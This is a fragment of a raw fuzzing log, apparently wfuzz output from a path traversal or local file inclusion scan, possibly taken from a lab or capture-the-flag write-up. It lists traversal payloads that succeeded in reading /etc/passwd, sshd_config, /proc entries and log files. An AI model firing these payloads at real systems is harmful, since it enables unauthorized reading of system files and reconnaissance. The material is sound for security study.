```bash
                                                        ../etc/passwd"                                         
000000258:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../../../../../../../../etc
                                                        /passwd"                                               
000000272:   200        28 L     41 W       1460 Ch     "../../../etc/passwd"                                  
000000271:   200        28 L     41 W       1460 Ch     "../../../../etc/passwd"                               
000000268:   200        28 L     41 W       1460 Ch     "../../../../../../../etc/passwd"                      
000000241:   200        8 L      40 W       288 Ch      "/etc/motd"                                            
000000257:   200        28 L     41 W       1460 Ch     "../../../../../../../../../../../../../../../../../../
                                                        etc/passwd"                                            
000000276:   200        28 L     41 W       1460 Ch     ".\\./.\\./.\\./.\\./.\\./.\\./etc/passwd"             
000000201:   200        8 L      23 W       205 Ch      "../../../../../../../../../../../../etc/hosts"        
000000306:   200        28 L     41 W       1460 Ch     "../../../../../../etc/passwd&=%3C%3C%3C%3C"           
000000270:   200        28 L     41 W       1460 Ch     "../../../../../etc/passwd"                            
000000395:   200        41 L     117 W      889 Ch      "/etc/rpc"                                             
000000417:   200        124 L    396 W      3274 Ch     "/etc/ssh/sshd_config"                                 
000000394:   200        2 L      2 W        25 Ch       "/etc/resolv.conf"                                     
000000494:   200        2 L      5 W        27 Ch       "/proc/loadavg"                                        
000000501:   200        9 L      28 W       207 Ch      "/proc/partitions"                                     
000000499:   200        5 L      44 W       514 Ch      "/proc/net/route"                                      
000000498:   200        5 L      54 W       451 Ch      "/proc/net/dev"                                        
000000496:   200        23 L     132 W      1555 Ch     "/proc/mounts"                                         
000000493:   200        31 L     138 W      1281 Ch     "/proc/interrupts"                                     
000000502:   200        1 L      1 W        29 Ch       "/proc/self/cmdline"                                   
000000505:   200        2 L      21 W       187 Ch      "/proc/version"                                        
000000495:   200        51 L     146 W      1393 Ch     "/proc/meminfo"                                        
000000500:   200        3 L      29 W       302 Ch      "/proc/net/tcp"                                        
000000497:   200        5 L      27 W       318 Ch      "/proc/net/arp"                                        
000000492:   200        28 L     167 W      987 Ch      "/proc/cpuinfo"                                        
000000504:   200        57 L     135 W      1332 Ch     "/proc/self/status"                                    
000000694:   200        1 L      1 W        292294 Ch   "/var/log/lastlog"                                     
000000745:   200        2 L      3 W        1151 Ch     "/var/run/utmp"                                        
```